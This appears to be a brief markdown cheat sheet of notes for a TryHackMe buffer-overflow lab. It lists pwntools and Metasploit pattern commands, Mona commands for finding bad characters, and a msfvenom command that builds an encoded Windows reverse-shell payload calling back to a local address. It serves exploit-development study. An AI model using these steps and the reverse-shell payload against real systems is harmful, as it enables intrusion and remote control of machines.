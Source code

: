 # BOF
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```


## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>


**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## MSF Payloads

`msfvenom -l payloads

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
